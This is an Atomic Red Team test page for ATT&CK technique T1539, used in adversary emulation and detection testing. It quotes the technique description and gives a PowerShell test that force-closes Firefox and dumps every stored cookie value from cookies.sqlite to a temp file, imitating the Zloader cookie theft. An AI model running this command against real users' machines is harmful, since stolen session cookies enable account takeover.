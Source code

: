 # T1539 - Steal Web Session Cookie
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1539)
<blockquote>An adversary may steal web application or service session cookies and use them to gain access to web applications or Internet services as an authenticated user without needing credentials. Web applications and services often use session cookies as an authentication token after a user has authenticated to a website.

Cookies are often valid for an extended period of time, even if the web application is not actively used. Cookies can be found on disk, in the process memory of the browser, and in network traffic to remote systems. Additionally, other applications on the targets machine might store sensitive authentication cookies in memory (e.g. apps which authenticate to cloud services). Session cookies can be used to bypasses some multi-factor authentication protocols.(Citation: Pass The Cookie)

There are several examples of malware targeting cookies from web browsers on the local system.(Citation: Kaspersky TajMahal April 2019)(Citation: Unit 42 Mac Crypto Cookies January 2019) There are also open source frameworks such as Evilginx 2 and Muraena that can gather session cookies through a malicious proxy (ex: [Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557)) that can be set up by an adversary and used in phishing campaigns.(Citation: Github evilginx2)(Citation: GitHub Mauraena)

After an adversary acquires a valid cookie, they can then perform a [Web Session Cookie](https://attack.mitre.org/techniques/T1550/004) technique to login to the corresponding web application.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Steal Firefox Cookies (Windows)](#atomic-test-1---steal-firefox-cookies-windows)


<br/>

## Atomic Test #1 - Steal Firefox Cookies (Windows)
This test queries Firefox's cookies.sqlite database to steal the cookie data contained within it, similar to Zloader/Zbot's cookie theft function. 
Note: If Firefox is running, the process will be killed to ensure that the DB file isn't locked. 
See https://www.malwarebytes.com/resources/files/2020/05/the-silent-night-zloader-zbot_final.pdf.

**Supported Platforms:** Windows


**auto_generated_guid:** 4b437357-f4e9-4c84-9fa6-9bcee6f826aa





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sqlite3_path | Path to sqlite3 | Path | $env:temp&#92;sqlite-tools-win32-x86-3380200&#92;sqlite3.exe|
| output_file | Filepath to output cookies | Path | $env:temp&#92;T1539FirefoxCookies.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
stop-process -name "firefox" -force -erroraction silentlycontinue
$CookieDBLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*\cookies.sqlite"
"select host, name, value, path, expiry, isSecure, isHttpOnly, sameSite from [moz_cookies];" | cmd /c #{sqlite3_path} "$CookieDBLocation" | out-file -filepath "#{output_file}"
```

#### Cleanup Commands:
```powershell
remove-item #{output_file} -erroraction silentlycontinue
```



#### Dependencies:  Run with `powershell`!
##### Description: Sqlite3 must exist at (#{sqlite3_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{sqlite3_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://www.sqlite.org/2022/sqlite-tools-win32-x86-3380200.zip" -OutFile "$env:temp\sqlite.zip"
Expand-Archive -path "$env:temp\sqlite.zip" -destinationpath "$env:temp\" -force
```




<br/>
